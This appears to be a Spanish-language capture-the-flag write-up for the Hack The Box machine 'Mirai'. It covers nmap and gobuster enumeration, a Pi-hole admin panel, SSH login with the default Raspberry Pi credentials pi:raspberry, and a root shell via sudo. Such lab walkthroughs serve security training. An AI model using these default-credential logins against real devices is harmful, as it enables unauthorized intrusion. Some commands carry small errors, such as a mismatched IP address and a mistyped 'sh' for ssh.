 ```yaml
---
layout: single
title: HTB-Mirai
excerpt: "WriteUp de la máquina HTB Mirai -- Type: Easy"
date: 2022-03-29
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/mirai/mirai.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```


<centre><img src="/assets/images/mirai/mirai.png"></centre>

[Maquina](https://app.hackthebox.com/machines/64) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.48 
```

```bash
Nmap scan report for 10.10.10.48
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Al comprobar que el puerto 80 esta abierto, nos disponemos a ver que se encuentra en él. Cuando entramos se encuentra en blanco, pero podemos usar la herramienta **dirbuster** para explorar el servidor web en busqueda de firectorios y ficheros en el.

Comando:
```bash
gobuster dir --url http://10.10.29.96/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

Resultados:
```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.48/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/29 12:27:48 Starting gobuster in directory enumeration mode
===============================================================
/_framework/blazor.webassembly.js (Status: 200) [Size: 61]
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/swfobject.js         (Status: 200) [Size: 61]                               
                                                                             
===============================================================
2022/03/29 12:28:10 Finished
===============================================================
```

Al ver los resultados comprobamos que tiene un directorio **/admin** al cual comprobaremos si hay algo.

<centre><img src="/assets/images/mirai/pihole.png"></centre>

Nos encontramos que hay un panel de administracion llamado **Pi-Hole**
lo cual nos da una pista de que nos estamos enfrentando a un SO Raspbian.


## Explotación
Ahora que sabemos a que nos enfrentamos y la "temática" de la maquina, en la botnet de **Mirai** usaban usuarios y credenciales por defecto y las de un dispositivos con este SO son:

```txt
pi:raspberry
```

Intentamos conectarnos por SSH con estas credenciales.

```bash
sh pi@10.10.10.48 
```

Y vemos que nos da acceso a la shell de la máquina.

```bash
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 
```

Usamos el comando **sudo su** para elevar privilegios y con ello ser root

```bash
pi@raspberrypi:~ $ sudo su
root@raspberrypi:/home/pi# 
```